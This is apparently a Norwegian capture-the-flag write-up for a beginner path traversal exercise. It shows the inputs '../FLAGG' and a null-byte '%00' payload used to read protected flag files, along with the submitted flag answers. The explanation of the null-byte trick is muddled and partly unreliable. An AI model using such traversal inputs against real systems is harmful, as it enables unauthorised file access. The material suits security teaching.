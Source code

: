 # Path traversal

  

Når en bruker selv kan påvirke hvilket filnavn et program skal jobbe med, kan det åpne for sårbarheter av typen *path traversal* eller *path manipulation*. I denne katalogen finner du et program som lar deg lese elektroniske bøker: `./les_bok`. Du har selv ikke tilgang til å åpne bok-filene som er lagret i underkatalogen `bok/`. Programmet derimot har rettigheter til å lese filene -- og *flaggene* :)

Se om du kan få tilgang til bok-filene og flaggene da vel! Du kan kikke i kildekoden til programmet: `les_bok.c`. Denne oppgaven har flere løsninger.

```sh
$ cat les_bok.c
$ ./les_bok
$ ./les_bok frankenstein
$ ./les_bok FLAGG.txt
$ ???
$ scoreboard <FLAGG>
```

Linker:
* <https://owasp.org/www-community/attacks/Path_Traversal>
* <https://en.wikipedia.org/wiki/Urlencoding

# Solution

Da jeg utforsket Path Traversal-oppgaven og la merke til at `les_bok`-programmet automatisk la til `.txt` til filnavnene jeg oppga, bestemte jeg meg for å prøve en annen tilnærming. Hver gang jeg prøvde en Path Traversal-kommando, endte jeg opp med feilmeldinger som "No such file or directory" fordi programmet prøvde å åpne filer som `bok/BONUS_FLAGG.txt.txt`. Derfor tenkte jeg å fjerne `.txt` fra kommandoen min. Jeg prøvde `./les_bok ../FLAGG`, og til min overraskelse fungerte det! Programmet la til `.txt` selv og åpnet `FLAGG.txt`-filen jeg prøvde å nå.

```sh
login@corax:~/1_grunnleggende/7_path_traversal$ ./les_bok ../FLAGG
```

![[Pasted image 20240115195609.png]]

```sh
login@corax:~/1_grunnleggende/7_path_traversal$ scoreboard c1b59bdd13b7ad853bb623d672c51234
Kategori: 1. Grunnleggende
Oppgave:  1.7_path_traversal
Svar:     c1b59bdd13b7ad853bb623d672c51234
Poeng:    10

Gratulerer, korrekt svar!
```


### Bonus flagg:
lik løste jeg oppgaven med path traversal og fant flagget:

1. Jeg startet med å utforske programmet `./les_bok` og innså at det tillot meg å lese bøker fra underkatalogen `bok/`, men jeg manglet tilgang til `BONUS_FLAGG`.
    
2. Jeg så på kildekoden `les_bok.c`, men fant ingen åpenbar måte å lese `BONUS_FLAGG` direkte uten `.txt`-utvidelsen.
    
3. Jeg husket at null bytes `%00` kan injiseres for å avslutte filnavn. For eksempel: `?file=secret.doc%00.pdf` ville gi en fil som slutter på `.doc`, men operativsystemet ser det som `.pdf`.
    
4. Jeg brukte denne teknikken ved å kjøre kommandoen: `./les_bok ../BONUS_FLAGG%00`.
    
5. Resultatet var at programmet behandlet filen som `BONUS_FLAGG` uten `.txt`-utvidelsen, og jeg fikk tilgang til flagget.

På denne måten kunne jeg omgå begrensningene og lese `BONUS_FLAGG`.
![[Pasted image 20240115203346.png]]
```sh
login@corax:~/1_grunnleggende/7_path_traversal$ ./les_bok ../BONUS_FLAGG%00
login@corax:~/1_grunnleggende/7_path_traversal$ scoreboard bc7f37bf13b7773cc361e002bc5ab7b0
Kategori: 1. Grunnleggende
Oppgave:  1.8_path_traversal_bonus
Svar:     bc7f37bf13b7773cc361e002bc5ab7b0
Poeng:    10

Gratulerer, korrekt svar!
```